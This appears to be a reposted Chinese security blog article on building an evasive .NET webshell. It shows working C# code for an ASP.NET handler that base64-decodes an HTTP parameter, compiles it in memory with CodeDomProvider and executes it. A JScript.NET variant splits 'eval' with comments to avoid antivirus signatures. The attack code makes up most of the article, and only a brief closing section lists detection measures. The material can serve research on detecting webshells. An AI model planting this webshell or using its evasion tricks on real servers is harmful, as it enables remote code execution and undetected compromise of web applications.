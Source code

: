 > 原文链接: https://www.anquanke.com//post/id/234449 


# 基于.NET动态编译技术实现任意代码执行


                                阅读量   
                                **245780**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p1.ssl.qhimg.com/t01d80343a6c9721356.png)](https://p1.ssl.qhimg.com/t01d80343a6c9721356.png)



## 一、前言

当下主流的Waf或Windows Defender等终端杀软、EDR大多都是从特征码查杀，在.Net和VBS下一句话木马中最常见的特征是eval，对于攻击者来说需要避开这个系统关键字，可从反序列化方式避开eval，但公开已久相信很多安全产品已经能够很好检测和阻断这类攻击请求。笔者从.NET 内置的CodeDomProvider类下手实现动态编译.NET代码，指明JScrip或者C#作为编译语言，编译的WebShell目前Windows Defender不会查杀。而防御者从流量或终端识别 “CodeDomProvider.CreateProvider、CreateInstance”等特征码。



## 二、动态编译

.Net可通过编译技术将外部输入的字符串作为代码执行，动态编译技术提供了最核心的两个类CodeDomProvider 和 CompilerParameters，前者相当于编译器，后者相当于编译器参数，CodeDomProvider支持多种语言（如C#、VB、Jscript），编译器参数CompilerParameters.GenerateExecutable默认表示生成dll，GenerateInMemory= true时表示在内存中加载，CompileAssemblyFromSource表示程序集的数据源，再将编译产生的结果生成程序集供反射调用。最后通过CreateInstance实例化对象并反射调用自定义类中的方法。

```
CodeDomProvider compiler = CodeDomProvider.CreateProvider("C#"); ;     //编译器
CompilerParameters comPara = new CompilerParameters();   //编译器参数
comPara.ReferencedAssemblies.Add("System.dll"); //添加引用
comPara.GenerateExecutable = false; //生成exe
comPara.GenerateInMemory = true; //内存中
CompilerResults compilerResults = compiler.CompileAssemblyFromSource(comPara, SourceText(txt)); //编译数据的来源
Assembly objAssembly = compilerResults.CompiledAssembly; //编译成程序集
object objInstance = objAssembly.CreateInstance("Neteye.NeteyeInput"); //创建对象
MethodInfo objMifo = objInstance.GetType().GetMethod("OutPut"); //反射调用方法
var result = objMifo.Invoke(objInstance, null);
```



## 三、落地实现

上述代码里的SourceText方法需提供编译的C#源代码，笔者创建了NeteyeInput类，如下

```
public static string SourceText(string txt)
        `{`
            StringBuilder sb = new StringBuilder();
            sb.Append("using System;");
            sb.Append(Environment.NewLine);
            sb.Append("namespace  Neteye");
            sb.Append(Environment.NewLine);
            sb.Append("`{`");
            sb.Append(Environment.NewLine);
            sb.Append("    public class NeteyeInput");
            sb.Append(Environment.NewLine);
            sb.Append("    `{`");
            sb.Append(Environment.NewLine);
            sb.Append("        public void OutPut()");
            sb.Append(Environment.NewLine);
            sb.Append("        `{`");
            sb.Append(Environment.NewLine);
            sb.Append(Encoding.GetEncoding("UTF-8").GetString(Convert.FromBase64String(txt)));
            sb.Append(Environment.NewLine);
            sb.Append("        `}`");
            sb.Append(Environment.NewLine);
            sb.Append("    `}`");
            sb.Append(Environment.NewLine);
            sb.Append("`}`");
            string code = sb.ToString();
            return code;
        `}`
```

类里声明了OutPut方法，该方法里通过Base64解码得到输入的原生字符串，笔者在这里以计算器作为演示，将“System.Diagnostics.Process.Start(“cmd.exe”,”/c calc”);” 编码为

```
U3lzdGVtLkRpYWdub3N0aWNzLlByb2Nlc3MuU3RhcnQoImNtZC5leGUiLCIvYyBjYWxjIik7
```

最后在一般处理程序ProcessRequest方法中调用

```
public void ProcessRequest(HttpContext context)
        `{`
            context.Response.ContentType = "text/plain";
            if (!string.IsNullOrEmpty(context.Request["txt"]))
            `{`
                DynamicCodeExecute(context.Request["txt"]); //start calc: U3lzdGVtLkRpYWdub3N0aWNzLlByb2Nlc3MuU3RhcnQoImNtZC5leGUiLCIvYyBjYWxjIik7
                context.Response.Write("Execute Status: Success!");
            `}`
            else
            `{`
                context.Response.Write("Just For Fun, Please Input txt!");
            `}`
        `}`
```

[![](https://p5.ssl.qhimg.com/t013d269c27c386b464.gif)](https://p5.ssl.qhimg.com/t013d269c27c386b464.gif)



## 四、其他方法
- **Jscript.Net 动态编译拆解eval**
在.NET安全领域中一句话木马主流的都是交给eval关键词执行，而很多安全产品都会对此重点查杀，所以笔者需要避开eval，而在.NET中eval只存在于Jscript.Net，所以需要将动态编译器指定为Jscript，其余和C#版本的动态编译基本一致，笔者通过插入无关字符将eval拆解掉，代码如下

```
private static readonly string _jscriptClassText =
        @"import System;
            class JScriptRun
            `{`
                public static function RunExp(expression : String) : String
                `{`
                    return e/*@Ivan1ee@*/v/*@Ivan1ee@*/a/*@Ivan1ee@*/l(expression);
                `}`
            `}`";
```

只需在编译的时候替换掉无关字符串“/**[@Ivan1ee](https://github.com/Ivan1ee)@**/”，最后编译后反射执行目标方法。

```
CompilerResults results = compiler.CompileAssemblyFromSource(parameters, _jscriptClassText.Replace("/*@Ivan1ee@*/",""));
```



## 五、防御措施
- 一般web应用使用场景不多，检测特征码：CodeDomProvider.CreateProvider、CreateInstance等等，一旦告警需格外关注；
- 由于编译生成的程序集以临时文件保存在硬盘，需加入对可写目录下dll文件内容的监控；
- 文章涉及的代码已经打包在 “[https://github.com/Ivan1ee/.NETWebShell](https://github.com/Ivan1ee/.NETWebShell)“